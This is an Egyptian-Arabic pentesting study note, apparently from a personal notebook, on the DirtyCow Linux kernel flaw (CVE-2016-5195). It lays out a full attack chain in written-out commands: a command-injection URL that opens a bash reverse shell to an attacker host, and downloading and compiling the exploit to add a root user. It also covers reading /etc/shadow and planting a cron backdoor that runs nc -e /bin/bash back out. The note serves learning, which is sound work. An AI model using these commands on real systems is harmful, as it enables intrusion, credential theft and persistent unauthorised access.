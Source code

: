 # **1. إيه هو DirtyCow (CVE-2016-5195)؟**

## **الشرح العميق:**
DirtyCow هو ثغرة في نواة لينكس (Linux Kernel) اكتشفت سنة 2016 ورقمها CVE-2016-5195. الثغرة دي بتستغل مشكلة في طريقة إدارة الذاكرة (Memory Management) في النظام، وبالأخص في ميزة تسمى "Copy-on-Write" (COW). الفكرة إنك لو كنت مستخدم عادي (Low Privilege User)، تقدر تستغل الثغرة دي عشان تكتب في ملفات المفروض تكون للقراءة بس (Read-Only) أو محمية، زي ملفات النظام المهمة (`/etc/passwd` مثلًا). الهدف الأساسي هو تصعيد الصلاحيات (Privilege Escalation) لتصير `root`.

- **إزاي بتشتغل؟** الثغرة بتستغل حالة سباق (Race Condition) بين الكتابة في الذاكرة وتعديل الملفات، فتقدر تغير محتوى ملفات النظام.
- **الإصدارات المتأثرة:** Kernel من 2.6.22 لحد 4.8.3 (يعني أنظمة قديمة قبل التحديثات بتاعة 2016).

## **الأدوات والأوامر العملية:**
### 1. **فحص إصدار الkernel:**
   - `uname -r` ->  يبقى متأثر.c`3.2.0-23-generic` لو رجع مثلًا
### 2. **تحميل Exploit:**
   - `wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirty.c`.
### 3. **تجميع الكود:**
   - `gcc -pthread dirty.c -o dirtycow`.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون لقيت خرم في حيطة السجن، تدخل منه وتطلع الكبير بتاع الحبس! DirtyCow يعني بتستغل عيب في النظام عشان تكتب في حاجات المفروض ماتقربلهاش وتبقى root."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
الثغرة دي خطيرة جدًا لأنها بتدي مستخدم عادي (زي `www-data` مثلًا) القدرة يتحكم في النظام كله عن طريق تعديل ملفات مهمة. يعني:
- **تصعيد صلاحيات:** تقدر تضيف نفسك كـ root أو تغير كلمات سر.
- **تدمير النظام:** لو عايز تخرب، تغير ملفات النظام الأساسية.
- **وصول دائم:** تضيف Backdoor عشان ترجع تاني.

في الـ Pentesting، لو لقيت سيرفر قديم متأثر بـ DirtyCow، ده يعني إنك ممكن تاخد root في دقايق من غير تعقيد.

## **الأدوات والأوامر العملية:**
### 1. **تشغيل الـ Exploit:**
   - `./dirtycow`  .->root ويضيف مستخدم جديد بصلاحيات `/etc/passwd`  بيعدل ملف زي
### 2. **التحقق:**
   - `id` -> يبقى نجحت.`uid=0(root)` لو رجع - ، 
### 3. **مثال يدوي:**
   - لو عندك Shell كـ `www-data`:
     - `echo "hacker:x:0:0:root:/root:/bin/bash" >> /etc/passwd` (عادةً ما ينفعش، بس DirtyCow بيخلّيه ينفع).

## **خلاصة بالعامية المصرية:**
"الثغرة دي خطيرة لأنها زي ما تكون لقيت مفتاح السجن في الزبالة، فتحت الباب وطلعت الباشا بتاع الكل! لو لقيتها، يبقى النظام في إيدك في ثواني."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم DirtyCow عشان تصعد من مستخدم عادي لـ root عن طريق تعديل ملفات النظام.
- **مثال واقعي:** لو وصلت لـ Shell كـ `www-data` على سيرفر قديم، تشغل الـ Exploit وتبقى root.

## **خلاصة بالعامية المصرية:**
"لما تلاقي DirtyCow، زي ما تكون لقيت عصاية سحرية في لعبة، تضرب بيها وتبقى الكبير بتاع الماتش في ثانية!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29 -> لو وصلت لـ Shell، ابدأ.

## **الخطوة 2: الوصول لـ Shell**
- لو لقيت ثغرة ويب (زي Command Injection):
  - `http://192.168.1.10/ping?ip=127.0.0.1; /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell -> `id` -> `www-data`.

## **الخطوة 3: التحقق من الkernel**
- في الـ Shell:
  - `uname -r` -> لو رجع `3.16.0-38-generic` (مثلاً)، يبقى متأثر بـ DirtyCow.

## **الخطوة 4: تحميل وتشغيل DirtyCow**
- انقل الـ Exploit للسيرفر:
  - في جهازك: `python3 -m http.server 80`.
  - في الـ Shell: `wget http://192.168.1.100/dirty.c -O /tmp/dirty.c`.
- جمّع الكود:
  - `gcc -pthread /tmp/dirty.c -o /tmp/dirtycow`.
- شغله:
  - `./tmp/dirtycow` -> غالبًا بيضيف مستخدم جديد زي `firefart` بصلاحيات root.

## **الخطوة 5: التحقق من التصعيد**
- `cat /etc/passwd` -> لو لقيت سطر زي `firefart:x:0:0::/:/bin/sh`.
- `su firefart` -> لو طلب كلمة سر (عادةً `firefart`)، ادخلها.
- `id` -> `uid=0(root)` -> نجحت.

## **الخطوة 6: استغلال وتوثيق**
- كـ root:
  - `cat /etc/shadow` -> تسريب كلمات السر.
  - `echo "nc -e /bin/bash 192.168.1.100 9999" > /etc/cron.d/backdoor` -> Backdoor.
- سجل الإصدار المتأثر والخطوات في تقريرك.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت سلاح في لعبة، ضربت بيه الكل، وطلعت الكبير بتاع الحتة! DirtyCow لما تلاقيها، يبقى النظام في جيبك في دقايق."

---

# **الخلاصة النهائية:**
DirtyCow (CVE-2016-5195) هي ثغرة خطيرة في نواة لينكس بتخلّيك تصعد من مستخدم عادي لـ root عن طريق استغلال عيب في الذاكرة. في الـ Pentesting، دور عليها في الأنظمة القديمة بـ `uname -r`، استخدم الـ Exploit عشان تاخد Shell كـ root، ووري العميل إن سيرفره زي بيت مكسور لو ما حدثش! بالطريقة دي، تبقى البطل بتاع اللعبة بسهولة!

---
# اختبر حفظك : [[DirtyCow (CVE-2016-5195). (Q).]]